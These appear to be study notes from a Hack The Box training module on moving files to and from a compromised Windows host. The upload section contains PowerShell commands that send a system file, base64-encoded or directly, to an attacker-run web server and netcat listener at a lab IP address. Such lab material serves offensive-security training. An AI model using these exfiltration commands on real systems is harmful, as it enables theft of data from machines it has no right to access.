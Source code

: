 When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

**Create a Command File for the FTP Client and Download the Target File**

`C:\htb> ftp -v -n -s:ftpcommand.txt`

# Upload Operations

`PS C:\htb> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))`

`PS C:\htb> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash`

`XeroCyb3r@htb[/htb] echo <Base64 hash> | base64 -d > hosts`

`XeroCyb3r@htb[/htb] md5sum hosts`

## PowerShell Web Uploads

PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function.

`XeroCyb3r@htb[/htb] pip3 install uploadserver`

`XeroCyb3r@htb[/htb] python3 -m uploadserver`

Now we can use a PowerShell script [PSUpload.ps1](https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) which uses `Invoke-WebRequest` to perform the upload operations.

The script accepts two parameters `-File`, which we use to specify the file path, and `-Uri`, the server URL where we'll upload our file.

`PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`

## PowerShell Base64 Web Upload

`PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`

`PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`

`XeroCyb3r@htb[/htb] nc -lvnp 8000`

`XeroCyb3r@htb[/htb] echo <base64> | base64 -d -w 0 > hosts`

## SMB Uploads

An alternative is to run SMB over HTTP with `WebDav`. `WebDAV` [(RFC 4918)](https://datatracker.ietf.org/doc/html/rfc4918) is an extension of HTTP, the internet protocol that web browsers and web servers use to communicate with each other. The `WebDAV` protocol enables a webserver to behave like a fileserver, supporting collaborative content authoring. `WebDAV` can also use HTTPS.

In the following Wireshark capture, we attempt to connect to the file share `testing3`, and because it didn't find anything with `SMB`, it uses `HTTP`.
